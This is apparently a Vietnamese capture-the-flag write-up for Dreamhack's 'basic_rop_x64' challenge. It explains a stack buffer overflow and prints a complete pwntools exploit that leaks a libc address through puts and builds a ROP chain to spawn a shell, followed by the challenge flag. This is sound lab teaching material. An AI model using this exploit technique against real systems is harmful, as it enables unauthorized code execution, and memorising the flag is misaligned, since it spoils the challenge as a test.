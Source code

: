 **1. Tìm lỗi**

Ta có file source như sau:

```
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

int main(int argc, char *argv[]) {
    char buf[0x40] = {};

    initialize();

    read(0, buf, 0x400);
    write(1, buf, sizeof(buf));

    return 0;
}

```

Chương trình khai báo biến `buf` 0x40 byte nhưng cho nhập 0x400 byte nên có lỗi `bof`

**2. Ý tưởng**

Sử dụng `ROPgadget` để tìm kiếm một số thanh ghi:

```
pop_rdi = 0x0000000000400883
pop_rsi_r15 = 0x0000000000400881
```

Không đủ để thực hiện `ROP` nhưng có thanh ghi rdi. Kiểm tra bảng `got` xem: 

![got.png](photo/got.png)

Có một số hàm nên có thể tận dụng hàm `puts` để leak địa chỉ của hàm `puts` từ đó leak được địa chỉ libc. Rồi sau đó getshell bằng `ROP` vơi scacs thanh ghi trong libc

**3. Khai thác**

```
   0x00000000004007e7 <+45>:    lea    rax,[rbp-0x40]
   0x00000000004007eb <+49>:    mov    edx,0x400
   0x00000000004007f0 <+54>:    mov    rsi,rax
   0x00000000004007f3 <+57>:    mov    edi,0x0
   0x00000000004007f8 <+62>:    call   0x4005f0 <read@plt>
```

Ta thấy biến `buf` cách rbp 0x40 byte nên phải nhập 0x40 + 0x8 byte rác mới tới `ret`. Sau đó tận dụng `rdi` và hàm `puts` để lấy được địa chỉ hàm puts rồi leak được libc base.

```
payload = b'a'*(0x40 + 0x8)
payload += p64(pop_rdi)
payload += p64(exe.got['puts'])
payload += p64(exe.plt['puts'])
payload += p64(exe.sym['main'])
r.send(payload)
```

![check.png](photo/check.png)

Chương trình trả về 0x40 byte a và 6 byte của 1 địa chỉ hàm `puts`. Vậy ta tính được địa chỉ libc như sau:

```
r.recvuntil(b'a'*0x40)
puts_leak = u64(r.recv(6) + b'\x00\x00')
log.info("puts leak: " + hex(puts_leak))
libc.address = puts_leak - libc.sym['puts']
log.info("libc base: " + hex(libc.address))
```

Tiếp theo đi tìm các gadget trong file libc:

```
pop_rdi = libc.address + 0x0000000000021102
pop_rsi = libc.address + 0x00000000000202e8
pop_rdx = libc.address + 0x0000000000001b92
pop_rax = libc.address + 0x0000000000033544
syscall = libc.address + 0x00000000000026bf
```

Tiếp theo nhập tràn đến ret và `ROP` là xong

```
payload = b'a'*(0x40 + 0x8)
payload += p64(pop_rdi) + p64(next(libc.search(b"/bin/sh")))
payload += p64(pop_rsi) + p64(0)
payload += p64(pop_rdx) + p64(0)
payload += p64(pop_rax) + p64(0x3b)
payload += p64(syscall)
r.sendline(payload)
```

Ta có script như sau:

```
from pwn import *

exe = ELF('basic_rop_x64', checksec=False)
#r = process(exe.path)
r = remote('host3.dreamhack.games', 16149)
libc = ELF('libc.so.6', checksec=False)

pop_rdi = 0x0000000000400883
pop_rsi_r15 = 0x0000000000400881

#input()
payload = b'a'*(0x40 + 0x8)
payload += p64(pop_rdi)
payload += p64(exe.got['puts'])
payload += p64(exe.plt['puts'])
payload += p64(exe.sym['main'])
r.send(payload)
r.recvuntil(b'a'*0x40)
puts_leak = u64(r.recv(6) + b'\x00\x00')
log.info("puts leak: " + hex(puts_leak))
libc.address = puts_leak - libc.sym['puts']
log.info("libc base: " + hex(libc.address))

pop_rdi = libc.address + 0x0000000000021102
pop_rsi = libc.address + 0x00000000000202e8
pop_rdx = libc.address + 0x0000000000001b92
pop_rax = libc.address + 0x0000000000033544
syscall = libc.address + 0x00000000000026bf

payload = b'a'*(0x40 + 0x8)
payload += p64(pop_rdi) + p64(next(libc.search(b"/bin/sh")))
payload += p64(pop_rsi) + p64(0)
payload += p64(pop_rdx) + p64(0)
payload += p64(pop_rax) + p64(0x3b)
payload += p64(syscall)
r.sendline(payload)

r.interactive()
```

**4. Lấy flag**

![flag.png](photo/flag.png)

'Flag: DH{357ad9f7c0c54cf85b49dd6b7765fe54}'